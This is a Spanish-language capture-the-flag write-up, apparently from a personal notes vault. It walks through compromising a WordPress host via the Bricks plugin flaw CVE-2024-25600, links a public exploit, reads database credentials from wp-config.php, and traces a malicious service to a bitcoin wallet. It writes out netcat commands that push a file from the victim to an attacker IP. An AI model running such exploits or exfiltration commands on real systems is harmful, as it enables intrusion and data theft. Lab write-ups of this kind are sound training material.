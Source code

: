Realizamos un escaneo y descubrimos 4 puertos abiertos
![[Pasted image 20240619073823.png]]

Al acceder al 443 encontramos un plugging bricks el cual tiene la siguiente vulnerabilidad `CVE-2024-25600`
![[Pasted image 20240619073905.png]]

Escaneamos la web con gobuster
![[Pasted image 20240619083910.png]]

Buscamos y encontramos el siguiente exploit, lo descargamos y lo ejecutamos
```
https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/tree/main
```
![[Pasted image 20240619074146.png]]


Desde la shell obtenida nos generamos una reverse shell y la mantendremos estable
![[Pasted image 20240619075115.png]]

Ahora leemos el fichero wp-config.php y encontramos unas credenciales
![[Pasted image 20240619075233.png]]

Buscamos procesos sospechosos y encontramos el siguiente
```Bash
systemctl | grep running
```
![[Pasted image 20240619075902.png]]
![[Pasted image 20240619075937.png]]

Revisamos el servicio y vemos que esta activo
![[Pasted image 20240619080018.png]]

Este es el proceso que esta ejecutando
![[Pasted image 20240619080101.png]]

Revisamos la carpeta y encontramos los siguientes archivos
![[Pasted image 20240619080729.png]]

Ahora nos transferiremos el archivo a nuestra maquina con netcat, para ello primero ejecutamos este comando en nuestra maquina
```Bash
nc -l -p 4444 > nm-inet-dialog
```
![[Pasted image 20240619082937.png]]

Y en la maquina victima ejecutamos el siguiente
```Bash
nc -w 3 10.9.0.164 4444 < nm-inet-dialog
```
![[Pasted image 20240619083110.png]]

Y ya habremos obtenido el archivo
![[Pasted image 20240619083215.png]]

Lo analizamos con virustotal y efectvamente es un archivo malicioso
![[Pasted image 20240619084308.png]]

Revisando la información que nos ha proporcionado encontramos un fichero el cual esta en la maquina victima
![[Pasted image 20240619085214.png]]

Lo leemos y encontramos un codigo cifrado

Nos identifica que posiblemente esta codificado en hexadecimal
![[Pasted image 20240619081051.png]]

Lo desciframos de hexadecimal a base64
![[Pasted image 20240619090616.png]]

Buscamos la dirección de bitcoin y encontramos la cartera
![[Pasted image 20240619090900.png]]


Analizamos la cartera y revisamos las transacciones
![[Pasted image 20240619091224.png]]

Encontramos una transacción extraña![[Pasted image 20240619091402.png]]

La analizamos y acabamos encontrando la flag final
![[Pasted image 20240619091909.png]]

